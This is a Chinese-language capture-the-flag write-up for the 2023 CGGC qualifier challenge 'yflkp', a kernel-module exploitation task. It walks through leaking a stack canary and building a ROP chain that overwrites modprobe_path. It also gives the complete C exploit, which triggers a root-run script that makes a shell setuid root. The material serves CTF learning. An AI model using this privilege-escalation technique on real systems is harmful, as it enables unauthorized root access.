





# 2023 CGGC Qual - yflkp Writeup

首先分析一下 `initramfs.cpio.gz`

```shell
gzip -cd initramfs.cpio.gz | cpio -idmv
```

看一下 `/init`

```shell
#!/bin/sh

chown 0:0 -R /
chown 1000:1000 -R /home/user
chown 0:0 /home/user/flag
chmod 0 /home/user/flag
chmod 04755 /bin/busybox

mount -t proc none /proc
mount -t sysfs none /sys
mount -t tmpfs tmpfs /tmp
mount -t devtmpfs none /dev
mkdir -p /dev/pts
mount -vt devpts -o gid=4,mode=620 none /dev/pts

/sbin/mdev -s

ifup eth0 >& /dev/null

echo 1 > /proc/sys/kernel/dmesg_restrict
echo 2 > /proc/sys/kernel/kptr_restrict


insmod /home/user/yflkp.ko
chmod 0666 /dev/yflkp


cd /home/user

setsid cttyhack setuidgid 1000 sh

poweroff -f
```

可以知道這題會去載入 `/home/user/yflkp.ko`，然後需要我們提權去讀取 `/home/user/flag`。

分析一下 `yflkp.ko`





可以知道載入 `yflkp.ko` 的時候會註冊一個 `/dev/yflkp` 的 device file。



`yflkp_read` 對應到 `/dev/yflkp` 的 read，這個 function 的問題在沒有檢查 `length`，所以可以讀取任意長度的字串。



`yflkp_write` 對應到 `/dev/yflkp` 的 write，這個 function 的問題也是沒有檢查 `length`，所以可以寫入任意長度的字串。

接著用 `file bzImage` 看一下 kernel 的版本，可以知道是 `6.6.0`，所以需要用到 `modprobe_path` 來提權。

因為可以 寫任意長度到 kernel 的 stack，所以可以 ROP，但因為有 canary，所以需要先 leak canary。

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

int main() {
    int fd = open("/dev/yflkp", O_RDWR);

    char buf[0x40] = {0};
    read(fd, buf, 0x38);
    unsigned long long canary = *(unsigned long long *)&buf[0x30];
    printf("canary : %llx\n", canary);

    close(fd);

    return 0;
}
```

用 `gcc -static solve.c -o solve` 編譯後把 `solve` 移動到 `/home/user`，接著更改 `/init`

```shell
#!/bin/sh

chown 0:0 -R /
chown 1000:1000 -R /home/user
chown 0:0 /home/user/flag
chmod 0 /home/user/flag
chmod 04755 /bin/busybox

mount -t proc none /proc
mount -t sysfs none /sys
mount -t tmpfs tmpfs /tmp
mount -t devtmpfs none /dev
mkdir -p /dev/pts
mount -vt devpts -o gid=4,mode=620 none /dev/pts

/sbin/mdev -s

# ifup eth0 >& /dev/null

# echo 1 > /proc/sys/kernel/dmesg_restrict
# echo 2 > /proc/sys/kernel/kptr_restrict


insmod /home/user/yflkp.ko
chmod 0666 /dev/yflkp


cd /home/user

# setsid cttyhack setuidgid 1000 sh
sh

poweroff -f
```

新增一個 `/home/user/flag`，然後重新把檔案系統包起來

```shell
find . -print0 | cpio --null -ov --format=newc | gzip -9 > ../initramfs.cpio.gz
```

更改一下 `run.sh`

```shell
#!/bin/bash

qemu-system-x86_64 \
    -L bios \
    -kernel bzImage \
    -initrd initramfs.cpio.gz \
    -cpu kvm64,+smep,+smap \
    -monitor none \
    -m 1024M \
    -append "console=ttyS0 oops=panic nopti nokaslr panic=1" \
    -monitor /dev/null \
    -nographic \
    -no-reboot \
    -net user -net nic -device e1000 \
    -s
```

跑起來之後去執行 `solve` 可以成功看到 canary 被 leak 了

接著就是推 ROP 了。首先先從 `bzImage` 把 `vmlinux` 拿出來然後找 ROP gadget

```shell
ctf pwn get-vmlinux
```

```shell
ROPgadget --binary ./vmlinux --only "pop|ret"
```

> 這邊要注意 `ROPgadget` 找到的 gadget 在 kernel 跑起來之後不一定還會存在，有一些 gadget 在啟動的時候會被寫掉，需要去驗證一下

我們需要把 `/tmp/pwn` 寫到 `modprobe_path`，首先先去找 `modprobe_path` 在哪

```shell
cat /proc/kallsyms | grep modprobe_path
```

可以得到

```
ffffffff82dd82a0 D modprobe_path
```

接著我們去找一下 `write` 會把前 0x30 個 bytes 複製到的 `g_buf`

```shell
cat /proc/kallsyms | grep g_buf
```

可以得到

```
ffffffffc0203580 b g_buf	[yflkp]
```

由此，我們的目標就是把 `/tmp/pwn` 寫到 `g_buf`，然後 ROP 去執行

```c
memcpy(modprobe_path, g_buf, 0x10)
```

```shell
cat /proc/kallsyms | grep memcpy
```

```
ffffffff820c0910 T memcpy
```

最後再想辦法回到正常的執行流程

接下來就是串 ROP 了，先去找幾個可以用的 gadget

```
0xffffffff813b593d : pop rdi ; ret 0xb
0xffffffff810b638e : pop rsi ; ret 1
0xffffffff8110b4b2 : pop rdx ; ret
```

這邊有一個小小神奇的地方，就是 `ret 0xb` 和 `ret 1` 的 `0xb` 和 `1` 的單位是 bytes，所以我們在 ROP 之後還要把 stack 給對齊

```
0xffffffff8102f7cc : ret 4
```

執行完之後可以 trace 一下原本應該會怎麼 return，找到一個適合的位址和調整 stack 來把程式執行流程還給 kernel

最後的 `solve.c` 長這樣

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>

#define MASK 0xffffffffffffffff

#define POP_RDI_RET_0xB 0xffffffff813b593d
#define POP_RSI_RET_0x1 0xffffffff810b638e
#define POP_RDX_RET 0xffffffff8110b4b2
#define RET 0xffffffff81000043
#define RET_0x4 0xffffffff8102f7cc

#define G_BUF 0xffffffffc0203580
#define MODPROBE_PATH 0xffffffff82dd82a0

#define MEMCPY_ADDR 0xffffffff820c0910
#define PLACE_TO_RETURN 0xffffffff814921b4

#define SHL_B(x, n) (x << (8 * n)) & MASK
#define SHR_B(x, n) (x >> (8 * n)) & MASK

void write_modprobe_path() {
    int fd = open("/dev/yflkp", O_RDWR);

    char buf[0x40] = {0};
    read(fd, buf, 0x38);
    unsigned long long canary = *(unsigned long long *)&buf[0x30];
    printf("canary : %llx\n", canary);

    unsigned long long ROP[] = {
        POP_RDX_RET, 0x10, 
        POP_RDI_RET_0xB, MODPROBE_PATH, 
        POP_RSI_RET_0x1, 0, SHL_B(G_BUF, 3), 
        SHR_B(G_BUF, 5) | SHL_B(RET_0x4, 3), 
        SHR_B(RET_0x4, 5) | SHL_B(RET, 4), SHR_B(RET, 4), 
        MEMCPY_ADDR, RET, 
        PLACE_TO_RETURN
    };
    char payload[0x50 + 0x68 + 1] = {0};
    *(unsigned long long *)&payload[0x30] = canary;
    memcpy(payload, "/tmp/pwn", 8);
    memcpy(&payload[0x50], ROP, 0x68);
    write(fd, payload, 0x50 + 0x68);

    close(fd);
}


void trigger() {
    system("mv /home/user/shell /tmp");

    FILE *fp = fopen("/tmp/pwn", "w");
    fprintf(fp, "#!/bin/sh\n");
    fprintf(fp, "chown 0:0 /tmp/shell\n");
    fprintf(fp, "chmod 4755 /tmp/shell\n");
    fclose(fp);

    fp = fopen("/tmp/trigger", "wb");
    fwrite("\xff\xff\xff\xff", 4, 1, fp);
    fclose(fp);

    chmod("/tmp/pwn", 0755);
    chmod("/tmp/trigger", 0755);
    system("/tmp/trigger");
}


int main() {
    write_modprobe_path();
    trigger();

    return 0;
}
```

用

```shell
ctf pwn get-shell
```

產生 `shell` 後，把 `/init` 回復到原本的模樣、`solve` 和 `shell` 移到 `/home/user` 然後把檔案系統包起來，接著把 `run.sh` 的 `-s` 拔掉之後跑起來



